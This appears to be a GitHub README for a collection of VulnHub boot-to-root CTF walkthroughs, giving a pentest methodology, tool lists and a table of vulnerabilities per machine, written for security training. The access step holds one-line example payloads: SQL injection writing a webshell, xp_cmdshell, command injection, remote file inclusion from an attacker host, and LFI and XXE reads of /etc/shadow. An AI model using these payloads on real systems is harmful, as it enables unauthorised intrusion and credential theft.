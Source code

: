 # Boot to root CTFs

Walkthroughs and notes of 'boot to root' CTFs mostly from VulnHub that I did for learning Pentesting and Red Teaming exercise. I like to use vulnerable VMs from VulnHub (in addition to the ones I create) to organize hands-on penetration testing training sessions for junior security auditors/consultants :-)


### >> Classic pentest methodology to do a Boot2root CTF <<

### Step 1 - Scanning and enumeration
```
   ➤ Network TCP/UDP port scans
   ➤ Service enumeration (HTTP,FTP,TFTP,SMB,NFS,SAMBA,SNMP,SMTP,..)
   ➤ User enumeration
   ➤ Vulnerability scans
   ➤ ...
```
##### ***Useful tools:*** [Nmap](https://nmap.org/) (network port scanner and (NSE) scripts), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing tool), [Nikto](https://www.kali.org/tools/nikto/) (Web vulnerability scanner), [Dirb](https://www.kali.org/tools/dirb/) & [Gobuster](https://github.com/OJ/gobuster)  (URL bruteforcers), [Kali various tools](https://www.kali.org/tools/), various scripts (source:Github/your owns).*
-------------------

### Step 2 - Gaining access
```
1. Exploiting security misconfiguration
   ➤ Anonymous access (e.g. FTP/TFTP/NFS/SMB, unprotected web admin console)
   ➤ Default and weak credentials (e.g. Web server, CMS, database, OS)
   ➤ Web server misconfiguration (e.g. Webdav + HTTP PUT method allowed > upload a Webshell)
   ➤ Clear-text passwords stored in 'public' website pages, configuration files, log files
   ➤ ...
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Web server            (e.g. Apache Struts RCE: CVE-2017-12611/CVE-2017-9805/CVE-2017-9791, JBoss Java Deserialization RCE)
   ➤ Bash & web server CGI (e.g. Shellshock RCE CVE-2014-6271/CVE-2014-7169)
   ➤ Web CMS               (e.g. Drupalgeddon2 RCE CVE-2018-7600)
   ➤ Web framework         (e.g. PHP CGI RCE CVE-2012-1823)
   ➤ FTP server            (e.g. ProFTPd 1.3.5 RCE CVE-2015-3306)
   ➤ Samba server          (e.g. SambaCry RCE CVE-2017-7494)
   ➤ Windows OS            (e.g. PrintNightmare/CVE-2021-1675, EternalBlue/MS17-010/CVE-2017-0143, MS14-068/CVE-2014-6324, MS08-067/CVE-2008-4250)
   ➤ ...
   
3. Exploiting Web application vulnerabilities
   ➤ SQLi - SQL injection                 (e.g. MysQL DB: SELECT webshell INTO DUMPFILE '/path/to/webshell.php'; MSSQL DB: exec master..xp_cmdshell 'windows command')
   ➤ Insecure upload function             (i.e. PHP/ASP/ASPX/JSP Webshell upload)
   ➤ OS command injection                 (e.g. https://target.com//stockStatus?ID=29|whoami)
   ➤ RFI - Remote File Include            (e.g. https://target.com/page?url=http://yourIP/webshell.php)
   ➤ LFI - Local File Include             (e.g. https://target.com/page?file=/../../../../etc/shadow)
   ➤ SSRF - Server Side Request Forgery   (e.g. https://target.com/page?url=http://127.0.0.1/phpmyadmin)
   ➤ XXE - XML external entity injection  (e.g. <!DOCTYPE foo [<!ELEMENT foo ANY ><!ENTITY xxe SYSTEM "file:///etc/shadow" >]><foo>&xxe;</foo>]>)
   ➤ ...
```
##### ***Useful tools:*** various scripts, webshells, and reverse shells (source:Github/your owns), [Kali various tools](https://www.kali.org/tools/), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Burp proxy](https://portswigger.net/burp) (manual & automated Web security testing), [Sqlmap](https://github.com/sqlmapproject/sqlmap) (automatic SQL injection & DB takeover tool), [kadimus](https://github.com/P0cL4bs/kadimus) (LFI exploit tool), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), [Impacket framework](https://github.com/SecureAuthCorp/impacket) & [CrackMapExec](https://github.com/Porchetta-Industries/CrackMapExec) (Windows environment pentesting tools), [Hydra](https://www.kali.org/tools/hydra/) / [thc-hydra](https://github.com/vanhauser-thc/thc-hydra) / [ncrack](https://nmap.org/ncrack/) (password bruteforce tools),  [DBvis/DbVisualizer](https://www.dbvis.com/download/) (universal database tool).
-------------------------------

### Step 3 - Post-exploitation and Privilege escalation to become "root" or "Local System"
```
1. Exploiting security misconfiguration
   ➤ Windows OS (e.g. weak service permissions, weak file permissions, weak registry permissions, weak passwords, password reuse, clear-text passwords stored in scripts, unattended install files, AlwaysInstallElevated trick..)
   ➤ Linux OS   (e.g. SUDO misconfiguration, SUID misconfiguration, CRON misconfiguration, weak file permissions, weak passwords, password reuse, clear-text passwords in scripts and .bash_history..)
   
2. Exploiting unpatched known vulnerabilities 
   ➤ Linux local exploit   (e.g. DirtyPipe CVE-2022-0847, Dirtyc0w CVE-2016-5195, eBPF exploit CVE-2017-16995, Overlayfs exploit CVE-2015-1328)
   ➤ Windows local exploit (e.g. HOT/ROTTEN/JUICY POTATO exploits, MS16-032 Secondary Logon Handle Privesc)
   ➤ Exploit for any vulnerable service/software running with "Local System" or local administrator privilege
```
##### ***Useful tools:*** various scripts such as [LinEnum](https://github.com/rebootuser/LinEnum) (Linux enumeration scripts), [LinPEAS & WinPEAS](https://github.com/carlospolop/PEASS-ng) (Linux & Windows enumeration scripts), [Linux Exploit suggester](https://github.com/mzet-/linux-exploit-suggester) / [Linux Exploit suggester 2](https://github.com/jondonas/linux-exploit-suggester-2) (scripts to assess Linux kernel security hardening and exposure on publicly known exploits), [PowerUp PowerShell script](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc) & [SharpUP](https://github.com/GhostPack/SharpUp) (Windows privilege escalation tools), [ExploitDB](https://www.exploit-db.com) & [searchsploit](https://www.exploit-db.com/searchsploit) (public exploit database), [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), ...
------------------------------

### Step 4 - Pivoting techniques to attack a second VM (or docker containers) only reachable from the 1rst one (some CTFs have several VMs/docker containers :-))
```
1. Pivoting with SSH tunneling (e.g. dynamic port forward / socks5 proxy / use of proxychain)
2. Pivoting with Metasploit/Meterpreter (e.g. post/multi/manage/autoroute + socks5 proxy + use of proxychain; "portfwd add" rules)
3. Pivoting with RPIVOT (reverse socks4 proxy, it works like ssh dynamic port forwarding but in the opposite direction)
4. Pivoting with TCP tunnelling over HTTP via Webshells (e.g. Tunna webshell, reGeorg and neo-reGeorg client/webshell)
5. Pivoting with SOCAT / Ligolo / RDP / VNC / ...
6. ...
```
##### ***Useful tools:*** [Metasploit framework](https://www.metasploit.com/) (penetration testing framework), [Rpivot](https://github.com/klsecservices/rpivot) / [SOCAT](http://www.dest-unreach.org/socat/) / [Ligolo](https://github.com/sysdream/ligolo) (reverse socks proxies for penetration tests), [Tunna](https://github.com/SECFORCE/Tunna) / [ReGeorg](https://github.com/kost/regeorg) / [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) (pivoting with TCP tunnelling over HTTP via Webshells), ...
---------------------------------

### Other - Mapping between a few boot2root VulnHub CTFs and common vulnerabilities/exploits

| Boot2root CTF | Anonymous access or Weak password | Insecure file upload function | Webshell | SQLi | LFI | RFI | XXE | OS cmd injection | XSS | Unpatched RCE flaw | Docker privesc | Info / Note | 
| :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| *Credit Card Scammers* | - | - | X | X | - | - | - | - | X | - | - | - |
| *Billu-b0x2* | - | - |- | - | - | - | - | - | - | X | - | Drupal CMS |
| *Bobby* | X | - | X | - | - | - | - | - | - | - | - | - |
| *CloudAV* | - | - | - | - | - | - | - | X | - | - | - | - |
| *DC:8* | - | - | X | X | - | - | - | - | - | - | - | Drupal CMS |
| *Vulnerable Docker:1* | X | - | X | - | - | - | - | - | - | - | X | WordPress CMS & Pivoting technique |
| *Freshly* | - | - | X | X | - | - | - | - | - | - | - | - |
| *Fristileaks.1.3* | - | X | X | - | - | - | - | - | - | - | - | - |
| *HackLab Vulnix* | X | - | - | - | - | - | - | - | - | - | - | - |
| *MinU:v2* | - | - | - | - | - | - | X | - | - | - | - |
| *Mr Robot* | X | - | X | - | - | - | - | - | - | - | - | WordPress CMS |
| *SafeHarbor:1* | - | - | - | X | X | X | - | - | - | X | X |Pivoting technique |
| *Scream* | X | - | X | - | - | - | - | - | - | X | - | - |
| *SickOS.1.1* | X | - | X | - | - | - | - | - | - | X | - | Pivoting technique |
| *SickOS.1.2* | - | - | X | - | - | - | - | - | - | - | - | - |
| *Stapler* | X | - | X | - | X | - | - | - | - | - | - | - |
| *Tr0ll1* | X | - | - | - | - | - | - | - | - | - | - | - |
| *Typhoon* | X | - | X | - | - | - | - | - | - | X | - | - |
| *VulnOSv2* | - | - | - | X | - | - | - | - | - | X | - | Drupal CMS |
| *WinterMute* | X | - | X | - | X | - | - | - | - | X | - | Pivoting technique |
